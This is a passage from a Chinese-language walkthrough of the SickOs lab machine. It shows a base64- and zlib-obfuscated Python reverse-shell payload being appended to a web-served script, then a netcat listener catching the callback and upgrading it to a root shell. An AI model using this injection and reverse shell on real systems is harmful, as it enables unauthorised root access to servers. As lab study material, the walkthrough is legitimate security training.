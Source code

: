 4. 把payload重定向到`connect.py` (`connect.py` 其实就是渗透阶段发现的`/connect` 目录里的内容)
    
    ```php
    echo "exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNqFkM0KwjAQhF8l5JSARJNSf5AcilQQUcH2XmyMtFib0E3fX0Paeuxehtn9dge2/ljTOQRGvbVDCC0Qgr60nVEaIHjz0z3yVRlwEvOdYHy9ZZuY8YjjcejvSC6ieGyADFdZEDK45Ficrmk+ZIVedjuciyy/p8mFTutMmbbVyhHicwPvQ+iEGGDP3goC7FU3ujWEBmo1S/BZQkyElf+PMPVoGoKXZd0uocL0C7l5Vrk=')[0])))" >> /var/www/connect.py
    ```
    
5. kali开启监听，等待代码执行
    
    获得`root`权限成功
    
    ```php
    nc -lvp 1235                                    
    listening on [any] 1235 ...
    //
    192.168.75.136: inverse host lookup failed: Unknown host
    connect to [192.168.75.131] from (UNKNOWN) [192.168.75.136] 51066
    
    python -c "import pty;pty.spawn('/bin/bash')"
    root@SickOs:~# 
    
    ```
